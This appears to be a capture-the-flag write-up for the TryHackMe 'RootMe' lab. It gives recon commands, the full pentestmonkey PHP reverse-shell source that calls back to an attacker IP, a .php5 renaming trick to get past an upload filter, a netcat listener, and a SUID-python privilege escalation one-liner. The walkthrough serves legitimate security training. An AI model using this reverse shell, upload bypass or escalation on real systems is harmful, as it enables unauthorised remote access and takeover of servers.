 # RootMe - THM
###  Difficulty level: Easy
------------------------------------------------------


I'll start by running nmap scan:
```bash
nmap -sV -sC 10.10.12.73 -oN scan.nmap
```

![image](https://user-images.githubusercontent.com/114166939/226315146-a7b150ac-c319-4da5-afbd-5d66906843e8.png)

Let's take a look on the website:

I'll run a brute-force attack on the url to find hidden directories:
```bash
gobuster dir -u http://10.10.12.73/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt > dirs.txt
```
![image](https://user-images.githubusercontent.com/114166939/226315983-f670d517-b741-4bfc-8c97-820c1e5cdf21.png)

The "/panel" directory includes images upload system:

![image](https://user-images.githubusercontent.com/114166939/226316570-95810171-e5d0-4216-923d-8dbbcdcd283b.png)

I'll try to get a reverse shell by uploading an exploit to this system,
I'm going to use php code for reverse shell by "https://pentestmonkey.net/":
```php
  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '[MY-IP]';  // change this
  $port = [PORT];  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;
  
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }

  ?> 
```
I changed the IP and port and called this file "reverse.php" and now I'm going to upload it to the panel:

![image](https://user-images.githubusercontent.com/114166939/226318268-7abbee05-bc19-4640-a7e6-d93bb8649fbc.png)

It detected and blocked the file, so to pass this validation  I found this page: "https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass".

So I'll change the file name to:"reverse.php5" and let's try again!

![image](https://user-images.githubusercontent.com/114166939/226319215-cea89063-2462-4d5e-84cc-da804415d50a.png)

Now i can find the upload at "/uploads" directory.

![image](https://user-images.githubusercontent.com/114166939/226319479-90a95ccd-e8cc-4049-b199-6c976cfe0823.png)

First, I'll run a netcat listener:
```bash
nc -lnvp [PORT]
```

And now run the reverse shell from the "/uploads" directory,
Got a reverse shell as "www-data" user.

![image](https://user-images.githubusercontent.com/114166939/226320289-3bc03e06-ed7b-40ce-899d-b01f0dca4eae.png)

Now, I can find the user.txt flag which stored at "/var/www":

![image](https://user-images.githubusercontent.com/114166939/226320713-e422b773-2245-4686-aeb7-713225bee469.png)

To find the root.txt flag, I need to find a way to escalate my privileges and become the root user.

I'm going to search for SUID files with the command:
```bash
find / -user root -perm /4000 2>/dev/null
```
One of the most suspicious files in the output is "/usr/bin/python"

![image](https://user-images.githubusercontent.com/114166939/226321712-c3ab1b4b-fc18-4686-a623-a14eba96850d.png)

I'll search for a vulnerability for SUID binary python file on "https://gtfobins.github.io/".

Found the following command:
```bash
./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
I'll enter to "/usr/bin" and run this command:

![image](https://user-images.githubusercontent.com/114166939/226322547-13b6e186-2cc7-4be9-ba31-3a1e2a3f4677.png)

Now all we need to do is enter the root directory and print the root.txt flag:

![image](https://user-images.githubusercontent.com/114166939/226325201-fd09f234-be21-4c33-8550-fcb9125bcb99.png)
